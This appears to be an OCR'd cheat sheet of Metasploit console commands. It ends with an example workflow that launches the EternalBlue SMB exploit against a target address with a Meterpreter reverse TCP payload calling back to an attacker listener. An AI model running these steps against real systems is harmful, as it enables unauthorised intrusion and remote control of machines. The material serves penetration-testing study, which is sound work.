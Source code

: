 ```text
help                    # show help and top-level commands
search <term>           # search modules (e.g. search type:exploit smb)
use <module_path>       # select a module (e.g. use exploit/windows/smb/...)
show options            # show configurable options for current module
show payloads           # display compatible payloads
show targets            # show target variants for exploit
set <opt> <value>       # set module option (e.g. set RHOSTS 10.10.10.5)
set PAYLOAD <payload>   # set the payload for the exploit
set LHOST <attacker_ip> # set your listen IP
set LPORT 4444          # set your listen port
setg <opt> <value>      # set global option across modules
unsetg <opt>            # unset a global option
exploit                 # run exploit (use `-j` to background, `-z` for no-session)
run                     # alias for exploit (for some modules)
back                    # unload module (return to msfconsole prompt)
sessions -l             # list sessions
sessions -i <id>        # interact with session id
background              # background the current session
```

> [!note] Backgrounding & handlers  
> If you expect a reverse connection, you can use `exploit -j` or run `use exploit/multi/handler` and `exploit` to handle incoming sessions.

---

## Example — full exploit workflow (typical pattern)

1. **Recon & find target**
    
    - Use scanners: `use auxiliary/scanner/portscan/tcp` or service scanners.
        
2. **Select exploit**
    
    ```text
    use exploit/windows/smb/ms17_010_eternalblue
    show targets
    set RHOSTS 10.10.10.5
    set RPORT 445
    ```
    
3. **Choose payload & handler settings**
    
    ```text
    set PAYLOAD windows/x64/meterpreter_reverse_tcp
    set LHOST 10.0.0.5
    set LPORT 4444
    ```
    
4. **Run exploit**
    
    ```text
    exploit
    ```
    